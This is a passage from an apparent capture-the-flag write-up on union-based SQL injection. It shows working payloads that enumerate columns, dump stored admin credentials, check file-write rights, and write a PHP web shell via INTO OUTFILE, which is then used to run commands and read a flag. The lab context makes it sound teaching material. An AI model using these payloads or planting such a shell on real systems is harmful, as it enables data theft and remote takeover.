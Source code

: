 Lets move on to enumerate the columns from these tables:
```sql!
' UNION SELECT 1,table_name,column_name,4,5 FROM information_schema.columns WHERE table_schema='backup'-- -
```
We get
```txt=
username
password
```

Now to extract data from the backup table:
```sql!
' UNION SELECT 1,username,password,4,5 FROM backup.admin_bk-- -
```
We get the credentials for admin: ``admin / Inl@n3_fre1gh7_adm!n``.
As we already are logged in for admin, we can skip this.


Let's check if we have file write permissions with this query:
```sql
' UNION SELECT 1,variable_name, variable_value,4,5 FROM information_schema.global_variables WHERE variable_name='secure_file_priv'-- -
```
Which returns an empty value, showing us that we might have file/write permissions.

Now if I try to write a web shell to `/var/www/html`, I get a "Permission Denied" error. So let me try writing it to `/var/www/html/dashboard`:
```sql!
' UNION SELECT "",'<?php system($_REQUEST[cmd]);?>',"","","" INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -
```
Then let's vist the url:
```html
..snip../dashboard/shell.php?cmd=ls
```
And this way we get the flag from the root directory with:
```html
..snip../dashboard/shell.php?cmd=cat /flag______.txt
```